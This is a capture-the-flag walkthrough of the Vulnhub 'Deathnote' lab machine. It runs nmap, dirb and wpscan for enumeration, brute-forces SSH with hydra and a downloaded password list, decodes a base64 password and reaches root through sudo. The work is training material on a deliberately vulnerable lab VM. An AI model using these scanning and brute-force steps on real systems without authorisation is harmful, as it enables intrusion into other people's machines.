







Vulnhub - Deathnote
Vulnhub - Deathnote
DISCLAIMER
Any actions and or activities related to the material contained within this Website is solely your responsibility. This site contains materials that can be potentially damaging or dangerous. If you do not fully understand something on this site, then GO OUT OF HERE! Refer to the laws in your province/country before accessing, using, or in any other way utilizing these materials.These materials are for educational and research purposes only.
PORT SCANING
—***
┌──(xf0lt㉿kali)-[~/vulnhub/deathnote]
└─$ nmap -sC -sV -Pn -T4 -oA nmap 192.168.56.105
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-30 14:54 WIB
Nmap scan report for deatnote.local (192.168.56.105)
Host is up (0.00061s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 5e:b8:ff:2d:ac:c7:e9:3c:99:2f:3b:fc:da:5c:a3:53 (RSA)
| 256 a8:f3:81:9d:0a:dc:16:9a:49:ee:bc:24:e4:65:5c:a6 (ECDSA)
|_ 256 4f:20:c3:2d:19:75:5b:e8:1f:32:01:75:c2:70:9a:7e (ED25519)
80/tcp open http Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/Nmap done: 1 IP address (1 host up) scanned in 7.19 seconds
WEBSITE
Before I dig deeper, I tried to visit the ip address on the browser but it can’t be accessed. So what I did was try to intercept the ip address using burpsuite. Is there something else inside or something? and here i get a url with path wordpress.

After I got the url address, I tried again on the browser but the same thing happened, we didn’t get any results. So I tried to change it to my local address
┌──(xf0lt㉿kali)-[~/vulnhub/deathnote]
└─$ cat /etc/hosts
192.168.56.105 deathnote.vuln

DIRB
Runing dirb to see the result from WordPress url path. I found the robots.txt file
┌──(xf0lt㉿kali)-[~/vulnhub/deathnote]
└─$ dirb http://deathnote.vuln/
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Fri Sep 30 15:48:06 2022
URL_BASE: http://deathnote.vuln/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://deathnote.vuln/ ----
+ http://deathnote.vuln/index.html (CODE:200|SIZE:197)
==> DIRECTORY: http://deathnote.vuln/manual/
+ http://deathnote.vuln/robots.txt (CODE:200|SIZE:68)
+ http://deathnote.vuln/server-status (CODE:403|SIZE:279)
==> DIRECTORY: http://deathnote.vuln/wordpress/
---- Entering directory: http://deathnote.vuln/manual/ ----
==> DIRECTORY: http://deathnote.vuln/manual/da/
==> DIRECTORY: http://deathnote.vuln/manual/de/
==> DIRECTORY: http://deathnote.vuln/manual/en/
==> DIRECTORY: http://deathnote.vuln/manual/es/
==> DIRECTORY: http://deathnote.vuln/manual/fr/
==> DIRECTORY: http://deathnote.vuln/manual/images/
+ http://deathnote.vuln/manual/index.html (CODE:200|SIZE:626)
==> DIRECTORY: http://deathnote.vuln/manual/ja/
==> DIRECTORY: http://deathnote.vuln/manual/ko/
==> DIRECTORY: http://deathnote.vuln/manual/style/
==> DIRECTORY: http://deathnote.vuln/manual/tr/
==> DIRECTORY: http://deathnote.vuln/manual/zh-cn/
---- Entering directory: http://deathnote.vuln/wordpress/ ----
The robots.txt file shows an image file, but when I access it I can’t see anything from the file. Then I tried to get it with a wget.


┌──(trysked㉿kali)-[~/vulnhub/deathnote]
└─$ wget http://deathnote.vuln/important.jpgm
because previously I could not see anything in the image file, so now I try to see the file type.
┌──(trysked㉿kali)-[~/vulnhub/deathnote]
└─$ file important.jpg
important.jpg: ASCII text
it turns out that in the picture there is a hidden message.
┌──(trysked㉿kali)-[~/vulnhub/deathnote]
└─$ cat important.jpg
i am Soichiro Yagami, light's father
i have a doubt if L is true about the assumption that light is kira
i can only help you by giving something important
login username : user.txt
i don't know the password.
find it by yourself
but i think it is in the hint section of site
WPSCAN
We already know what technology was used to build this website, so I need to find out how many users use wpscan. and I found one user that is Kira
┌──(xf0lt㉿kali)-[~/vulnhub/deathnote]
└─$ wpscan --url http://deathnote.vuln/wordpress/ -e u
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_
WordPress Security Scanner by the WPScan Team
Version 3.8.22
Sponsored by Automattic - https://automattic.com/
@_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
______________________________________________________________
[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]n
[+] URL: http://deathnote.vuln/wordpress/ [192.168.56.105]
[+] Started: Fri Sep 30 15:41:40 202
Interesting Finding(s)
[+] Headers
| Interesting Entry: Server: Apache/2.4.38 (Debian)
| Found By: Headers (Passive Detection)
| Confidence: 100
[+] XML-RPC seems to be enabled: http://deathnote.vuln/wordpress/xmlrpc.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
| References:
| - http://codex.wordpress.org/XML-RPC_Pingback_API
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
| - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access
[+] Enumerating Users (via Passive and Aggressive Methods)
Brute Forcing Author IDs - Time: 00:00:00 <=========================================================================================> (10 / 10) 100.00% Time: 00:00:0
[i] User(s) Identified
Trysked, [30/9/22 3:43 PM
[+] kira
| Found By: Author Posts - Author Pattern (Passive Detection)
| Confirmed By:
| Rss Generator (Passive Detection)
| Wp Json Api (Aggressive Detection)
| - http://deathnote.vuln/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
| Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Login Error Messages (Aggressive Detection
[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/registe
[+] Finished: Fri Sep 30 15:41:44 2022
[+] Requests Done: 13
[+] Cached Requests: 47
[+] Data Sent: 3.634 KB
[+] Data Received: 11.444 KB
[+] Memory used: 203.059 MB
[+] Elapsed time: 00:00:04
before I say first for this stupid thing I have been waiting for the results from hydra and wpscan to bruteforce the password, but I thought that instead of wasting my time, I explored the website and found a unique word here.

after I get the user name and password then I try to login on the wp-admin page.

next I take the file notes.txt using wget

┌──(xf0lt㉿kali)-[~/vulnhub/deathnote]
└─$ wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt
After I got the notes.txt , then I looked at the contents of the file and it turned out that the contents were in the form of a list of passwords. Then the next step I brutforced using hydra. Before I bruteforce the notes.txt file I, changed it to pass and I create a user list with user names containing the names of Kira and l, because that’s the only user I know. if you get more users you can enter it as a list.
HYDRA
┌──(xf0lt㉿kali)-[~/vulnhub/deathnote]
└─$ hydra -L user -P pass 192.168.56.105 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-30 21:07:28
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 129 login tries (l:3/p:43), ~9 tries per task
[DATA] attacking ssh://192.168.56.105:22/
[22][ssh] host: 192.168.56.105 login: l password: death4me
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-30 21:07:53
After I get the next user and password I do ssh
┌──(xf0lt㉿kali)-[~/vulnhub/deathnote]
└─$ ssh l@192.168.56.105
l@192.168.56.105's password:
Linux deathnote 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep 30 10:09:22 2022 from 192.168.56.1
l@deathnote:~$
then I moved to the /opt/L directory. then here I found two folders, so I tried to enter the first folder called fake-notebook-rule.
l@deathnote:/opt/L$ ls
fake-notebook-rule kira-case
l@deathnote:/opt/L$
i see two files, i tried instead of the hint file there it tells me to use cyberchef. then I also open the case.wav file its contents are hex text. I use cyberchef to identify the type of text. and I get the password in encrypted form using base64.
@deathnote:/opt/L/fake-notebook-rule$ ls
case.wav hint
l@deathnote:/opt/L/fake-notebook-rule$ cat hint
use cyberchef
l@deathnote:/opt/L/fake-notebook-rule$ cat case.wav
63 47 46 7a 63 33 64 6b 49 44 6f 67 61 32 6c 79 59 57 6c 7a 5a 58 5a 70 62 43 41 3d
l@deathnote:/opt/L/fake-notebook-rule$ echo -n 'cGFzc3dkIDoga2lyYWlzZXZpbCA=' | base64 -d
passwd : kiraisevil
l@deathnote:/opt/L/fake-notebook-rule$
in the /home directory I found two users, I have done many things to both of them but to no avail, because I have found the password I tried ssh l with the password I found but couldn’t connect, so I tried kira.
┌──(xf0lt㉿kali)-[~/vulnhub/deathnote]
└─$ ssh kira@192.168.56.105
kira@192.168.56.105's password:
Linux deathnote 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_6
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Sep 4 06:00:09 2021 from 127.0.0.1
kira@deathnote:~$
after logging in as guess i try to see what’s there, I found a txt file and it looks like it’s just a user flag code or something, so I ignore it first and find out more.
kira@deathnote:~$ ls
kira.txt
kira@deathnote:~$ cat kira.txt
cGxlYXNlIHByb3RlY3Qgb25lIG9mIHRoZSBmb2xsb3dpbmcgCjEuIEwgKC9vcHQpCjIuIE1pc2EgKC92YXIp
kira@deathnote:~$
now i try to see the user who can login as root.
kira@deathnote:~$ sudo -l
[sudo] password for kira:
Matching Defaults entries for kira on deathnote:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bi
User kira may run the following commands on deathnote:
(ALL : ALL) ALL
kira@deathnote:~$
I was told kira can access root on this host. i was told guess can access root on this host. I tried to access it as normal. and yeah we go to root. congrats for you and me.
kira@deathnote:~$ sudo su
root@deathnote:/home/kira# cd /root
root@deathnote:~# pwd
/root
root@deathnote:~# ls
root.txt
root@deathnote:~# cat root.tx
:::::::: :::::::: :::: ::: :::::::: ::::::::: ::: ::::::::::: ::::::::
:+: :+: :+: :+: :+:+: :+: :+: :+: :+: :+: :+: :+: :+: :+: :+:
+:+ +:+ +:+ :+:+:+ +:+ +:+ +:+ +:+ +:+ +:+ +:+ +:+
+#+ +#+ +:+ +#+ +:+ +#+ :#: +#++:++#: +#++:++#++: +#+ +#++:++#++
+#+ +#+ +#+ +#+ +#+#+# +#+ +#+# +#+ +#+ +#+ +#+ +#+ +#+
#+# #+# #+# #+# #+# #+#+# #+# #+# #+# #+# #+# #+# #+# #+# #+#
######## ######## ### #### ######## ### ### ### ### ### ########
##########follow me on twitter###########3
and share this screen shot and tag @KDSAMF
root@deathnote:~#